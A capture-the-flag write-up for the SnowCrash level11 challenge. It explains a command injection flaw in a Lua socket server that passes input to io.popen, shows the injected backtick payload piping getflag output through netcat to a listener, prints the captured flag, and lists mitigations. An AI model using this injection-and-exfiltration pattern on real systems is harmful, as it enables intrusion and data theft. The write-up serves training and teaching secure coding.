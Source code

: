 # CTF Report: SnowCrash Level11

## Summary
Command injection vulnerability in Lua socket server. The `level11.lua` script uses `io.popen()` without input sanitization, allowing shell command injection through backtick operators.

**Flag:** `fa6v5ateaw21peobuub8ipe6s`

## Analysis

### Service Discovery
```bash
cat level11.lua
```

**Key Findings:**
- Lua script listening on `127.0.0.1:5151`
- Accepts password input from clients
- Uses vulnerable `io.popen()` for password hashing

### Vulnerable Code
```lua
function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()
  return data
end
```

**Vulnerability:** User input (`pass`) is directly concatenated into shell command without sanitization.

## Vulnerability

**Type:** Command Injection (CWE-78)

**Root Cause:** 
- `io.popen()` executes shell commands
- User input concatenated directly: `"echo "..pass.." | sha1sum"`
- No input validation or escaping
- Backticks (`` ` ``) allow command substitution

## Exploitation

### Step 1: Setup Listener
Open a new SSH session and setup netcat listener:
```bash
nc -l 3131
```

### Step 2: Inject Payload
Connect to the Lua service and inject command:
```bash
nc 127.0.0.1 5151
Password: `getflag | nc 10.11.162.105 3131`
Erf nope..
```

**Payload Breakdown:**
- Backticks trigger command substitution
- `getflag` executes with flag11 privileges
- Output piped to netcat connecting to our listener
- Command runs before password check

### Step 3: Receive Flag
On listener session:
```
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

## Attack Chain

1. Lua server accepts connection on port 5151
2. Our payload: `` `getflag | nc 10.11.162.105 3131` ``
3. Server executes: `echo `getflag | nc 10.11.162.105 3131` | sha1sum`
4. Shell processes backticks first (command substitution)
5. `getflag` runs with elevated privileges
6. Output sent to our remote listener via netcat
7. Flag captured out-of-band

## Mitigation

1. **Never use shell execution with user input**
2. Use proper Lua libraries for hashing instead of `io.popen()`
3. Sanitize all user input - escape shell metacharacters
4. Use parameterized commands or safe APIs
5. Implement input validation with whitelists
6. Run service with minimum required privileges
7. Use `os.execute()` with proper escaping or avoid shell entirely

**Secure Alternative:**
```lua
local crypto = require("crypto")
function hash(pass)
  return crypto.digest("sha1", pass)
end
```

## Timeline
- Discovered Lua service on port 5151
- Analyzed source code - found command injection
- Setup remote listener for out-of-band data exfiltration
- Crafted payload with command substitution
- Successfully captured flag via netcat tunnel